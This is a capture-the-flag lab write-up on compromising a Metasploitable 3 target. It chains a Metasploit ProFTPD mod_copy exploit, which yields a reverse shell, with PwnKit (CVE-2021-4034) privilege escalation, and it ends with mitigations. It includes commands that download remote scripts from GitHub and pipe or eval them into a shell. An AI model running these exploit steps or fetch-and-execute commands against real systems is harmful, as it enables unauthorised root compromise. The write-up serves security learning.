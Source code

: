 # 🧨 Metasploit Table 3 — From Frustration to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `Metasploit`, `ProFTPD`, `PwnKit`, `Privilege Escalation`, `Linux`

---

## 📘 Description

This challenge is based on **Metasploitable 3 (Table 3)**.  
The goal: gain initial access, escalate privileges, and become **root**.  

It involves exploiting an **FTP service (ProFTPD)** misconfiguration and then chaining it with a **local privilege escalation (PwnKit, CVE-2021-4034)**.

---

## 🔍 Reconnaissance

### Nmap Scan

```bash
nmap -sS -sV -O -T4 172.28.128.3
```

**Results:**

| Port | Service     | Version             | Notes                                |
|------|-------------|---------------------|--------------------------------------|
| 21   | FTP         | ProFTPD 1.3.5       | Vulnerable to mod_copy RCE           |
| 22   | OpenSSH     | 6.6.1p1             | Old version, not the attack path     |
| 80   | Apache HTTP | 2.4.7 + PHP 7.0.2   | Minor CVEs, but not primary vector   |
| 631  | CUPS        | 1.7                 | Some CVEs, possible Shellshock, skip |

---

## 🔥 Vulnerability: ProFTPD mod_copy (RCE)

The **ProFTPD mod_copy** module allows copying files on the server using FTP commands.  
This can be abused to copy a PHP payload into the webroot, then execute it via the browser.

- **Metasploit module:** `exploit/unix/ftp/proftpd_modcopy_exec`  

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 172.28.128.3
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 172.28.128.1
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LPORT 4444
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run
```

🎉 **Result:** Reverse shell obtained as **www-data (UID 33)**.  

---

## 🧠 Privilege Escalation

### Step 2: Enumeration with LinPEAS

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

🔎 Found vulnerable **PwnKit (CVE-2021-4034)**.

### Step 3: Exploit PwnKit

```bash
eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
```

🔥 Boom → Got **root access**.  

---

## 🏆 Final Outcome

✔️ Exploited **ProFTPD mod_copy** → gained reverse shell  
✔️ Enumerated with **LinPEAS**  
✔️ Escalated privileges with **PwnKit (CVE-2021-4034)**  
✔️ Achieved **ROOT**  

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                 |
|-----------------|------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of sensitive files (config, DB creds, system files) |
| Integrity       | 🔴 Attacker can modify system files, add users, backdoors              |
| Availability    | 🔴 Full DoS possible (delete system binaries, crash services)          |

---

## 🛡️ Mitigation

- Patch **ProFTPD** (remove or update `mod_copy`).  
- Patch **Polkit** to fix **PwnKit (CVE-2021-4034)**.  
- Run services with **least privilege**.  
- Use **segmentation**: FTP/web should not run as privileged users.  
- Continuous monitoring with host-based IDS (e.g. OSSEC).  

---

## 💡 Reflection

This lab was tough but highly rewarding:  
- It taught chaining **service exploitation** + **local privilege escalation**.  
- Reinforced patience, persistence, and using automation (LinPEAS).  
- Demonstrated a **realistic attack path** from **exposed FTP → root compromise**.  

🔥 Day 84 — From scanning → exploitation → privilege escalation → **ROOT**!  
